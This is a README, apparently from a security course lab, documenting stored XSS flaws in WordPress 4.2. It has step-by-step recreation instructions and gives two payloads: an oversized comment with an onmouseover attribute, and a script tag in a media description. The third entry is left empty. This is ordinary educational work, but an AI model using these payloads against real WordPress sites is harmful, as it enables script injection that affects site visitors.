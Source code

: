 # README

Time Spent: 4 hours in total

Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

XXS

  - [ ] Summary: 
  
      I am using XSS with WP 4.2, which was fixed in version 4.2.1.
  - [ ] GIF Walkthrough:![](https://i.imgur.com/xslxj31.gif)
  - [ ] Steps to Recreate:
  
     You have to comment on a post and insert the following into a comment: 
     
     <a title='x onmouseover=alert(unescape(/hello%20world/.source))          style=position:absolute;left:0;top:0;width:5000px;height:5000px <You will then insert 64,000 of a character and hit comment>
  - [ ] Affected Source Code: 
        None
  
  
XXS

  - [ ] Summary:
  
  I am using XSS with WP 4.2, which was fixed in version 4.7.3.
  - [ ] GIF Walkthrough: ![](https://i.imgur.com/uDAam90.gif)
  - [ ] Steps to Recreate:
        1. Create a media post 
        2. Add  "filename <script>alert("Exploit 3 Successful");</script>" to the desciption (include the quotes)
        3. Then click view attachment page and the alert box will pop up
  - [ ] Affected Source Code:
        None
  
  
  XXS

  - [ ] Summary:
  
  I am using XSS with WP 4.2, which was fixed in version 
  - [ ] GIF Walkthrough:
  - [ ] Steps to Recreate:
  - [ ] Affected Source Code:
        None

